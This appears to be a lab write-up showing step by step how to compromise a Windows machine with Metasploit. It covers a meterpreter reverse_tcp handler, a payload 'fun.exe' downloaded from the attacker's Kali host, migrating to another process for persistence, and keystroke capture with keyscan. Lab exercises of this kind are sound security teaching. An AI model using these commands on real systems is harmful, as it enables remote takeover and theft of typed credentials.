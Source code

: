 Check the status of apache2

<img width="874" alt="image" src="https://github.com/user-attachments/assets/040700eb-7642-4493-a10b-d86426b48140">

Invoke msfconsole:

<img width="602" alt="image" src="https://github.com/user-attachments/assets/68b5c816-db23-4fe9-852a-ff1b57819edd">

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="827" alt="image" src="https://github.com/user-attachments/assets/b256e88b-fdb7-4604-a3dc-f409383e0d2e">

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

<img width="589" alt="image" src="https://github.com/user-attachments/assets/91c9967a-99bf-4db0-9d31-ad8ee165c7f6">

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.4/fun.exe The file "fun.exe" downloads.

<img width="363" height="230" alt="380680831-1a211cb7-e49c-4dfb-a4eb-9914aa5fe3dc" src="https://github.com/user-attachments/assets/523434b1-f52b-40a7-a1b5-95561be38253" />

Bypass any warning boxes, double-click the file, and allow it to run.

<img width="354" height="204" alt="380681274-ae00f0c5-39d5-4717-a921-4f9b5a386475" src="https://github.com/user-attachments/assets/6dc4b123-8c2b-4c6b-86da-a785f4c78a2e" />



On kali give the command exploit

<img width="577" alt="image" src="https://github.com/user-attachments/assets/4f20f78f-270f-47f3-8176-4a26ed593b9e">

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

<img width="857" alt="image" src="https://github.com/user-attachments/assets/37f8c6c2-888b-4d46-a447-89c291975d3c">

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

<img width="781" alt="image" src="https://github.com/user-attachments/assets/0aa5dfee-8bf2-4683-999b-c0fb8cc13b14">
<img width="619" alt="image" src="https://github.com/user-attachments/assets/8c6078c0-ec91-46c7-8a9e-de53239c0e24">


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![image](https://github.com/user-attachments/assets/ae4261ce-8ebe-4f5e-ae04-89afacdfeeb4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
